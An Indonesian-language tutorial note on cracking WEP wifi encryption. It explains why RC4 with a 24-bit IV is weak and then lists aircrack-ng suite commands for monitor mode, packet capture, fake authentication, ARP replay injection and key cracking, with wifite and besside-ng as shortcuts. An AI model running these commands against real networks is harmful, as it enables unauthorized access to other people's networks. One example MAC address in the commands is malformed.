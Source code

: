 # WEP Hacking
#wireless #encryption 

Key: 
- Packet injection
- 24 - bit IV

## Karakteristik
WEP menggunakan RC4 stream cipher dengan kunci sebanyak 64-bit atau 128-bit. Jika dikurangi dengan total IV nya, maka sebenarnya kunci yang benar-benar dipakai adalah
- `40 / 64 bit` . Karena menggunakan 40-bit key, kuncinya hanya membutuhkan 5 karakter $5*8=40$ (pada ASCII, tiap karakter = 8 bit atau 1 byte) atau 10 karakter hex.
- `104 / 128 bit` . Passphrase 13 karakter ASCII atau 26 karakter hex.

## Vulnerability
- WEP menggunakan 24-bit IV, yang mana dianggap lemah secara kriptografi. Pada 24-bit IV, ada kemungkinan 50% IV yang sama akan terulang setelah 5.000 paket. Sehingga sangat rentan pada lokasi yang sangat sibuk. Hal ini menyebabkan WEP mudah dijebol. Packet injection untuk mengirimkan bogus packet juga menyebabkan WEP makin cepat dipecahkan. 
- Dari 64-bit kunci, hanya 40-bit yang bersifat rahasia. Begitu pula pada versi 128-bit kunci yang hanya ada 104-bit yang bersifat rahasia.
- Pengiriman IV sendiri adalah dalam plain text, sehingga mempermudah attacker untuk melakukan recovery kunci dari rotasi 24 bit IV.
- 32 bit CRC / ICV (Integrity Check Value) sehingga lemah terhadap tampering dan bit flipping attack.

**Teknik serang:** Attacker bisa memaksa IV yang sama digunakan untuk yang kedua kali dengan melakukan replay network traffic dengan jumlah yang sangat banyak.


## Eksploitasi
Untuk tes eksploitasi, gunakan wifi sendiri dengan setting bit kunci berjumlah kecil `40/64 bit`. Tujuannya untuk mempercepat proses dari WEP hacking itu sendiri. Lalu semakin padat informasi yang di kirimkan melalui WEP, maka proses pengambilan IV akan semakin cepat.

Inisiasi serangannya adalah:
```sh
# masuk ke monitoring mode
airmon-ng start wlan0

# apabila terdapat kendala proses
airmon-ng check kill
```

Menggunakan **wifite** untuk cracking WEP dan menggunakan random MAC address. Tools ini dapat melakukan otomasi serangan airodump, aireplay, dan aircrack.
```sh
wifite --wep --mac
```

Menggunakan bessid-ng.
```sh
# untuk mendapatkan .pcap
besside-ng -c _ChannelTargetIsOn_ -b _BSSIDofTargetNetwork_ _NameOfInterfaceCard_

besside-ng -b 7C:CA:ED:A4:9B:EE -c 11 wlan0mon

# collect the IVs (Initialization Vectors) from the something.cap file
aircrack-ng ./wep.cap
```


Old but gold technique, untuk memahami proses cracking dari WEP. Serangan dari aireplay-ng akan diulang setiap 5000 IVs sampai berhasil.
```sh
# melihat WEP yang ada di sekitar
sudo airodump-ng wlan0mon --encrypt WEP

# tentukan bssid yang digunakan, channel yang digunakan, masukkan capture ke WEPcrack.pcap file
sudo airodump-ng --bssid 00:09:5B:6F:64:1E -c 11 -w WEPcrack mon0

# (optional) jika tidak terdapat device lain bisa menggunakan fake authentication untuk mengasosiasikan MAC address. -h 00:0F:B5:88:AC:82 adalah MAC address komputer itu sendiri.
sudo aireplay-ng -1 0 -e ssid -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon


# apabila tidak ada traffic, kita bisa inject ARP traffic (untuk mempercepat proses mendapatkan reused IV + key)
# nilai - h 44:60:57:c8:58:A0 harus merupakan perangkat aktif pada jaringan.
sudo aireplay-ng -3 -b 00::09:58:6F:64:1E -h 44:60:57:c8:58:A0 mon0

# crack
aircrack-ng WEPcrack-01.cap
```

Untuk mengembalikan wireless adaptor dari monitor mode
```sh
sudo airmon-ng stop wlan0mon
sudo systemctl start NetworkManager
```
## Kesimpulan
Kecuali buat nangkap script kiddies sedang melakukan hacking, tidak ada alasan lain untuk menggunakan WEP.


## Sumber
- https://null-byte.wonderhowto.com/how-to/hack-wi-fi-hunting-down-cracking-wep-networks-0183712/
- https://en.wikipedia.org/wiki/Initialization_vector
- https://teckk2.github.io/wifi%20pentesting/2018/07/20/Hacking-WEP.html
- https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
- https://en.wikipedia.org/wiki/Wired_Equivalent_Privacy#:~:text=Most%20devices%20also%20allow%20the%20user%20to%20enter%20it%20as,128%20bits%20of%20WEP%20key).
- https://www.youtube.com/watch?v=ab6GYvKxfV0
